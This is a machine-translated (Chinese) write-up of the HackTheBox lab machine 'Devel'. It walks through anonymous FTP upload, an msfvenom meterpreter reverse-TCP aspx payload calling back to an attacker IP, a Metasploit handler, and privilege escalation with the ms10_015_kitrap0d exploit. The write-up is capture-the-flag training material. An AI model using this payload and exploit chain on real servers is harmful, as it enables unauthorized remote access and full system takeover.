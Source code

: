 # 从 HackTheBox 开发

> 原文：<https://infosecwriteups.com/devel-from-hackthebox-21c6436acf52?source=collection_archive---------3----------------------->

## Ftp 和 windows 乐趣

![](img/e1ce10d53cb9dd711d6def1ac28f1c9d.png)

大家好，这是 Hac，今天我们将从 hackthebox 开始开发，这是一个很容易退役的 windows box。有一个有趣的立足点，这可能有助于攻击和防御类型的战争游戏，例如黑客盒子战场。所以，不要浪费任何时间，让我们开始黑吧。

我们将从快速 nmap 扫描开始

```
─$ sudo nmap -sC -sV -p- 10.129.108.142 -oA nmap_all --min-rate 10000
[sudo] password for kali: 
Starting Nmap 7.93 ( [https://nmap.org](https://nmap.org) ) at 2022-10-25 02:35 EDT
Nmap scan report for 10.129.108.142
Host is up (0.082s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 26.67 seconds
```

所以有两个服务启动并运行 ftp & IIS 服务器。我们在 ftp 上有匿名登录，所以让我们检查 ftp，因为我们可能会得到一些有趣的信息，如某些东西的明文密码，或者我们可能会上传文件的 Ftp，这可能会给我们一个低特权外壳。

![](img/b9a867d55b7283075ffa50ab6f6e8da3.png)

检查 ftp 端口 21

![](img/295846c42e61c62a0eb858a88fc5b0ba.png)

在 ftp 上上传. txt 文件

我能够上传一个名为“a.txt”的文件，并能够从网络服务器上访问该文件。这意味着我们可以通过上传一个 asp 文件得到一个外壳。你可能想知道为什么 aspx？为什么不是 php 或者别的什么？这是因为它是一个 windows 盒子，运行的是微软 IIS 服务器，默认情况下不支持 PHP。通过侦察，我们了解到一个名为“aspnet_client”的目录。

![](img/459a7b22b28c8dd088c9f224f707d940.png)

aspnet_client

检查 a.txt 以确保我们能够从 web 服务器访问它。

![](img/3746b1f6791d2b8a92b10c24460e6324.png)

现在我试着用 msfvenom 创建一个 revershell，这是我第一次用。asp '扩展，但当上传外壳并试图从 web 服务器访问它时，我得到一个错误“500 内部服务器错误”。所以我试着创建一个有效载荷。aspx "扩展名，它的工作，我得到了一个 revershell。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.16 LPORT=6969 -f aspx > shell.aspx
```

然后，我将最后的有效载荷上传到 ftp 服务器上&并试图从 web 服务器访问它。

![](img/1f79522ed211e8fc68d398af26a7604d.png)

在 ftp 上上传 shell.aspx

我们需要对 msfconsole 进行一些设置，以便获得 shell。顺便说一句，如果你是 1337 黑客，你也可以用 netcat 访问外壳。

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 6969
LPORT => 6969
msf6 exploit(multi/handler) > run
```

现在让我们回到 web 服务器来激活我们的有效载荷。

![](img/6b6a9269b2bfaa2e37b58493c85411c2.png)

访问 shell.aspx

还有……我们有一个反转，让我们开始吧

![](img/9130c435005b09d44278b40ed422ab51.png)

我们找到一个弹壳

是时候把我们的特权升级到 root，完全 pwn 这个盒子了。

让我们从基本的系统枚举开始。通过运行“系统信息”命令，只是探索文件系统寻找密码或任何将提供信息。

```
c:\windows\system32\inetsrv>systeminfo
systeminfoHost Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          25/10/2022, 9:32:47 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.419 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.516 MB
Virtual Memory: In Use:    625 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.108.142
                                 [02]: fe80::84e5:a926:a7b4:20d4
                                 [03]: dead:beef::5005:9eb9:f501:6af
                                 [04]: dead:beef::84e5:a926:a7b4:20d4
```

嗯，从“systeminfo”命令的输出中，我们得到了主机名、操作系统版本和系统架构，我们会记下来，因为这可能会有所帮助。所以现在我们来试试“local_exploit_suggester”这是 metasploit 的一个 post 模块。

![](img/320ff6f650094c4ac19765f091806ccc.png)

本地利用建议器输出

首先，我尝试使用“**exploit/windows/local/bypassuac _ eventvwr**”但它失败了，所以，我尝试“**exploit/windows/local/ms10 _ 015 _ kitrap 0d**”它工作了，我能够将我的权限升级到 root。

![](img/5d4bf0e87b76cdb276f3f6561b94fb35.png)

ms10_015_kitrap0d

![](img/ecc42dba5c73bd4edb4a897ec1706c5d.png)

有很多方法可以在这个盒子上找到根，但是这个是最简单的。还有一些“本地利用建议者”的替代品，如[https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)。但是在这篇文章中，我试图保持事情的简单。

希望你喜欢:)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！